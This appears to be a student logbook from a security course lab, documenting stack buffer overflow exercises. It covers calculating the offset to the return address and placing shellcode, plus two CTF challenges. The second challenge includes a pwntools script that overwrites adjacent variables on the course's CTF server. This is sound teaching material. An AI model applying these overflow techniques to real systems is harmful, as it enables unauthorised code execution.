 ## Task 1

We ran both binaries and as expected in both cases a shell was invoked.

[Logbook 5 - Task 1](/screenshots/logbook5-task1.png)

## Task 2

We successfully compiled the file. First using the commands given and then using the makefile.

[Logbook 5 - Task 2](/screenshots/logbook5-task2.png)

## Task 3

After debugging the program as suggested, we obtained the distance between the buffer's starting position and the position of the ebp (0xFFFFCA48-0xFFFFC9DC=0x6C=108).

[Logbook 5 - Task 3 - Part 1](/screenshots/logbook5-task3-1.png)

We chose the last bytes to place the shell code (start=517-length of the shell code).

As suggested, to get the buffer address, we included a printf in the stack.c code.

The offset is 108+4 because the return address is always at ebp+4.

To get our new return address, we added our offset (108 + 4) to the address of the buffer, plus 4 bytes (the space needed to write our 32 bit address). We could've added more bytes, since our shell code is located at the end of the 517 bytes.

[Logbook 5 - Task 3 - Part 2](/screenshots/logbook5-task3-2.png)

After running our exploit we ran the stack-L1 program and verified that the exploit had worked because the shell was invoked (see attached image).

[Logbook 5 - Task 3 - Part 3](/screenshots/logbook5-task3-3.png)

## CTF

### Challenge 1

First we analysed the program, and found that a 28 character long string was being written into a string variable with an allocated memory of only 20 characters. By inputting 20 random characters followed by "flag.txt", we were able to overwrite the contents of the meme_file variable and consequently access the contents of the flag.txt file.

### Challenge 2

The difference from the 1st challenge, was that in the second challenge, changing the value of meme_file variable wasn't enough. First we needed to overwrite a flag variable so that the content of the flag was 0xfefc2122, and only after that, could we overwrite the meme_file variable with the path to the flag file (flag.txt). In order to do this we wrote a python script that creates a 32 byte array (32 is the length scanned by the program), placed the flag after the 20 bytes used to fill the buffer and immediately after we placed the flag's path ("flag.txt").

Here is the script we wrote:

```python
#!/usr/bin/python3
from pwn import *
import sys

N=32
content = bytearray(0x0 for i in range(N))
number  = 0xfefc2122
content[20:24]  =  (number).to_bytes(4,byteorder='little')
content[24:32] = ("flag.txt").encode('latin-1')
print(content)
DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(content)
r.interactive()
```